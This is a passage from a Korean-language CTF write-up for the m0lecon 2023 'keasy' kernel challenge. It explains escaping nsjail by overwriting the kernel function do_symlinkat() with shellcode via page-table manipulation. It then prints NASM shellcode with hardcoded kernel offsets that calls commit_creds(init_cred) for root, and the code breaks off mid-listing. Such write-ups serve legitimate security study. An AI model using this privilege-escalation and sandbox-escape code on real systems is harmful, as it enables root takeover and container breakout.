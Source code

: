     <img src="/assets/images/posts_img/writeups/m0lecon-2023-keasy/kbase_leak.png" alt="kbase_leak.png">
</center>



# 3. Escape nsjail

이제 nsjail을 탈출해야 한다. 이를 위해 쉘코드를 만든 후 이를 어딘가에 쓴 후, 실행시키는 방법을 생각해볼 수 있다.
이때 PTE를 조작할 수 있으므로 원래는 쓰기가 금지된 구역조차 pte의 flag를 조작해 쓸 수 있다는 점을 고려하면,
커널 함수를 만든 쉘코드로 덮어버리는 방법을 생각할 수 있다. 여기서는 커널 함수인 `do_symlinkat()`을 덮는다.
필요한 offset들은 `/proc/kallsyms`를 조회하고 간단한 offset 계산을 통해 얻을 수 있다.

```nasm
; 물리 주소 offset
init_cred         equ 0x1445ed8
commit_creds      equ 0x00ae620
find_task_by_vpid equ 0x00a3750
init_nsproxy      equ 0x1445ce0
switch_task_namespaces equ 0x00ac140
init_fs                equ 0x1538248
copy_fs_struct         equ 0x027f890
kpti_bypass            equ 0x0c00f41

_start:
  endbr64
  call a
a:
  pop r15 ; 여기서 현재 rip가 r15로 들어감
  sub r15, 0x24d4c9 ; 물리 base 다시 계산
	
  ; root 권한 탈취
  ; commit_creds(init_cred) [3]
  lea rdi, [r15 + init_cred]
  lea rax, [r15 + commit_creds]
  call rax

  ; task = find_task_by_vpid(1) [4]
  mov edi, 1
  lea rax, [r15 + find_task_by_vpid]
```

[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.